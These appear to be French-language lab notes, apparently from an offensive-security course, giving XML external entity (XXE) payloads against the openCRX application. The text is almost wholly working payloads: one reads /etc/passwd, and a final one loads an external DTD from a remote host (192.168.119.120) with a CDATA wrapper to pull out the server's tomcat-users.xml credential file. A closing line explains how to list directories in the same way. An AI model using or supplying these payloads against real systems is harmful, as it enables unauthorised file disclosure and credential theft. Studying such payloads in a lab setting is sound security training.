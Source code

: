 # Payloads

## Exemple basique

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY lastname "Replaced">
    ]>
    <org.opencrx.kernel.account1.Contact>
      <lastName>&lastname;</lastName>
      <firstName>Tom</firstName>
    </org.opencrx.kernel.account1.Contact>

## Test avec /etc/passwd

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY lastname SYSTEM "file:///etc/passwd">
    ]>
    <org.opencrx.kernel.account1.Contact>
      <lastName>&lastname;</lastName>
      <firstName>Tom</firstName>
    </org.opencrx.kernel.account1.Contact>

## Exemple de wrapper (fichier wrapper.dtd)

    <!ENTITY wrapper "%start;%file;%end;">

## Payload final incluant notre wrapper 

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://192.168.119.120/wrapper.dtd" >
    %dtd;
    ]>
    <org.opencrx.kernel.account1.Contact>
      <lastName>&wrapper;</lastName>
      <firstName>Tom</firstName>
    </org.opencrx.kernel.account1.Contact>

En Java, on peut aussi lister le contenu d'un dossier avec la classe File. En remplaçant "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" par "/home/student/crx" dans notre exemple on obtiendrait le contenu de ce dossier.
